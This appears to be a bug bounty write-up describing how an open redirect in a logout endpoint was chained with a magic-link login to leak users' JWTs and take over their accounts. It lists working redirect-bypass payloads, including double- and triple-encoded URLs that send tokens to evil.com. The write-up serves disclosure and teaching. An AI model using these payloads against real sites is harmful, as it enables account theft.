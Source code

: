 # Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By compining this vulnerability with an authentication functionality I was able to takeover the user
account.

## Open Redirection Vulnerability:

### Original Request

![alt text](original_redirect.png)

### Steps

- The application had an endpoint like this <span style="color:red"> ***/logout*** </span> that takes a <span style="color:red">***GET***</span> parameter called <span style="color:red">***r***</span>.
- The parameter <span style="color:red">***r***</span> takes an endpoint to be redirected to like this <span style="color:red">***/logout?r=/dashboard***</span>.
- So I tried to to put a valid host to see what it does like this <span style="color:red">***logout?r=https://program.com/***</span>.
- The application redirected me so, I new that I can play with it to see what else I can get.
- I tried to set the host name to another domain like <span style="color:red">***r=https://evil.com/***</span> and the application responded with <span style="color:red">***invalid redirect uri***</span>.
- Knowing this I thought of listing some payloads to try out:<br>
  <span style="color:red">***r=https://evil.com/program.com***</span><br>
  <span style="color:red">***r=https://program.com.evil.com***</span><br>
  <span style="color:red">***r=https://program.com@evil.com***</span><br>
  <span style="color:red">***r=https://evil.com@program.com***</span><br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.

- So at first why we tried these payloads?
  - When I try to find an open redirection I try first to know what url format is allowed or understandable by browsers. So, the meaning of <span style="color:red">***https://john@program.com***</span> is that you are trying to access <span style="color:red">***program.com***</span> as username <span style="color:red">***john***</span>. You can try this on firefox or chrome. 
  - So, by knowing this I was thinking what if the developer is using a regex that validates this format and when someone tries to change the value of <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com@program.com***</span> he validetes it as a valid value because he know that it's the samething. The user will be redirected to program.com at the end too.
  - Another question comes to my head. What is the set of characters allowed before <span style="color:red">***@***</span> I tried to test it on the browser to see what is allowed. And, I have found that the browser when I but an ecnoded value like this <span style="color:red">***john%2f***</span> as username it validtes it and sees it as a valid value. You can try it <span style="color:red">***john%2f@google.com***</span>.
  - I tried to set <span style="color:red">***r***</span> to <span style="color:red">***https://evil.com%252f@program.com/***</span> and sent the request. The response successfully redirected me to <span style="color:red">***https://evil.com/@program.com/***</span>
  - So, let's break the payload.
    - The application validates this <span style="color:red">***john@program.com***</span> as a valid format.
    - So I tried to inject <span style="color:red">***/***</span> in the payload but doubled encoded like this <span style="color:red">***https://evil.com%252f@program.com/***</span>.
    - It's double encoded because If I encoded one time it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this <span style="color:red">***https://evil.com%2f@program.com/***</span>.
    - Then the response return the redirection like this <span style="color:red">***https://evil.com/@program.com***</span>.
    - As you can see the browser will treat <span style="color:red">***/@program.com***</span> as a path to <span style="color:red">***https://evil.com***</span> and the redirection successfully happenes to <span style="color:red">**evil.com**</span>.
- Another important thing is that the <span style="color:red">***/logout***</span> endpoint sends any get parameter with the new redirection like this <span style="color:red">**/logout?r=https://evil.com%252f@program.com&heap=heap**</span> the redirection will be like this <span style="color:red">**https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap**</span>.

### Exploited Request

![alt text](exploited_request.png)

## Exploiting The Login Functionality.

### Original Request

![alt text](magic_link_original_request.png)

### Steps

- The applicaiton has a functionality to send you a magic link to login with it. This endpoint takes an <span style="color:red">***email***</span> and <span style="color:red">***redirect_uri***</span> parameters. So, after trying to find a vulnerability with the email I tried to find what I can do with the <span style="color:red">***redirect_uri***</span>.
- The <span style="color:red">***redirect_uri***</span> takes a url and the applicaion appends a <span style="color:red">**JWT**</span> token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection but with no clue.
- But, what if can edit the path of the url like this <span style="color:red">**https://program.com/anypath/anypath**</span> I tried it and sent the request and I looked at my mail I found that the magic link is like this <span style="color:red">**https://program.com/anypath/anypath?jwt=SOME_VALUE**</span>.
- Okay great, can I compine the this with the open redirection I have found before?. I set the <span style="color:red">**redirect_uri**</span> to <span style="color:red">**https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**</span>.
- And the magic link sent was like this <span style="color:red">**https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- Clicking the link I was redirected to <span style="color:red">**https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**</span>.
- By this, I was able to get the jwt as an attacker and using the jwt I was able to login.
- So the same scenario is done if you want to target another user. You need an email and after collecting the jwt you can use it to login to the user's account.

### Exploited Request

![alt text](magic_link_exploited_request.png)

### My Info :

#### Yeswehack  : <a href="https://yeswehack.com/user/mekky">https://yeswehack.com/user/mekky</a>

#### Intigriti  : <a href="https://app.intigriti.com/researcher/profile/mekky">https://app.intigriti.com/researcher/profile/mekky</a>

#### Linkedin   : <a href="https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/">https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/</a>

#### Twitter    : <a href="https://twitter.com/Mekky49295157">https://twitter.com/Mekky49295157</a>

